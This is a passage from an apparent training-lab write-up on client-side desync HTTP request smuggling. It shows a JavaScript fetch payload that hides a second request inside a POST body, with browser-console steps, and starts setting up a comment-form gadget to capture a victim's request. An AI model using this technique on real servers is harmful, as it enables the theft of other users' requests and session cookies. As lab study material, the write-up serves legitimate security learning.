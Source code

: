 Create the same behavior we had with Burp in a JS file:

```javascript
fetch("https://0ad0007504e058c7c925f8c3009e0035.h1-web-security-academy.net/", {

method: "POST",

body: "GET /halil HTTP/1.1\r\nX-Ignore: X",

credentials: "include", //with-cookies connection pool

mode: "cors", //make sure the 302 on / is not followed

}

).catch(()=>{

fetch("https://0ad0007504e058c7c925f8c3009e0035.h1-web-security-academy.net/en", {

mode: "no-cors",

credentials: "include"

});

});
```

Open a chrome browser, which has the page loaded and go to the `Network` options. Click the `Preserve logs`.

Then go to the `Console` and paste the js code above, and run it.

We got a `404 Not Found` as shown below:

![](Pasted_image_20250120094941.png)

And for more details, on the `Network` tab, wee see both requests, one with `302` and one with `404` as in the Burp.

![](Pasted_image_20250120095031.png)

### Find a vulnerable gadget to store our victim's request

In the website, we see some posts where we can add comments. Just add one.

In Burp we see the request to add the comment which is: `POST /en/post/comment HTTP/1.1`.

The body of this request is:

```http
csrf=kBVF187ngft1vzcFHK5gU4IiYssQRZUZ&postId=5&comment=halilWasHere&name=halilWasHere&email=halilwashere%40halil.com&website=https%3A%2F%2Fwww.halil.com
```

Now move the `comment` to the end as we want to make sure that the victim's normal request is gonna come after. And the body will be:
